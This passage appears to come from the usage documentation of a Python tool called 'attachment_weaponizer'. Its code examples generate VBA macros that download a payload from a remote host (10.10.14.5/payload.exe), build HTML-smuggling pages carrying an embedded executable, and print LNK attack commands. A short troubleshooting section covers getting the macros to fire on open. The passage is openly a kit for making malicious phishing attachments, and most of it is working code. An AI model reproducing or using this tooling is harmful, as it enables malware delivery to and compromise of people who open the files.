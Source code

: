 ```python
from attachment_weaponizer.creators import OfficeCreator

creator = OfficeCreator('output')

# Generate sample VBA
vba_code = creator.generate_sample_vba(
    payload_url='http://10.10.14.5/payload.exe'
)

# Save and use
with open('payload.vba', 'w') as f:
    f.write(vba_code)
```

### Custom HTML Smuggling with Embedded Payload

```python
from attachment_weaponizer.creators import HTMLCreator

creator = HTMLCreator('output')

# Read payload
with open('payload.exe', 'rb') as f:
    payload_bytes = f.read()

# Create HTML with embedded payload
html = creator.create_smuggling_html(
    payload_url='',  # Not used when embedding
    output_name='document.html',
    payload_bytes=payload_bytes
)
```

### LNK Command Examples

```python
from attachment_weaponizer.creators import LNKCreator

creator = LNKCreator('output')

# Get example commands
examples = creator.generate_example_commands()

for name, command in examples.items():
    print(f"{name}:")
    print(f"  {command}\n")
```

## Troubleshooting

### Macro Documents Not Working
- Ensure macros are enabled in Word/Excel
- Check macro code for syntax errors
- Verify Auto_Open() function name
- Test in sandbox environment first
